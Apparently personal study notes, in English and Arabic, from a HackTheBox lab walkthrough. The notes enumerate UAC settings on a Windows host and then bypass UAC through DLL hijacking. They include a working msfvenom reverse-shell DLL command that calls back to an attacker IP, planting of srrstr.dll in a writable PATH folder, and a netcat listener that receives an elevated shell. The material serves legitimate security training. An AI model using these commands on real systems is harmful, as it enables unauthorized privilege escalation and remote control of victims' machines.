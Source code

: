 # User Account Control

**User Account Control(UAC):** feature in windows which display consent prompt when program run service need high privilege

عباره عن برومبت بتظهر لما بترن حاجه محتاجه صلاحيات عاليه

When UAC is enable all Apps running with user privilege wither admin accept to running with admin privilege

لما الحاجه دي تبقي شغاله البرامج والمهام بتشتغل بصلاحيات مستخدم عادي، إلا لو الأدمن وافق صراحة إنها تشتغل بصلاحيات أدمن. ده بيحمي الأدمن من إنه يعمل تغييرات خطيرة من غير قصد.

**UAC is not Security Boundary**

***

## **Checking Current User**

```powershell
C:\htb> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ==============================================
winlpe-ws03\sarah S-1-5-21-3159276091-2191180989-3781274054-1002
```

## **Confirming Admin Group Membership**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
sarah
The command completed successfully.
```

## **Reviewing User Privileges**

```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## **Confirming UAC is Enabled**

check if UAC is enabled if value is 0x1 then UAC is enabled

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

## **Checking UAC Level**

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## **Checking Windows Version**

UAC bypasses leverage flaws or unintended functionality in different Windows builds

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

![image.png](<../../../../.gitbook/assets/image (1) (1).png>)

> **The** [**UACME**](https://github.com/hfiref0x/UACME) **project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it**

<figure><img src="../../../../.gitbook/assets/image 1 (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Reviewing Path Variable**

The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

***

## **Generating Malicious srrstr.dll DLL**

First, let's generate a DLL to execute a reverse shell. and open listener

```bash
irix@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

## **Testing Connection**

run dll with privilege user to confirm it’s work

```bash
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

## **Executing SystemPropertiesAdvanced.exe on Target Host**

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.

```bash
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```bash
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## **Receiving Connection Back**

Checking back on our listener, we should receive a connection almost instantly.

```bash
irix@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

***
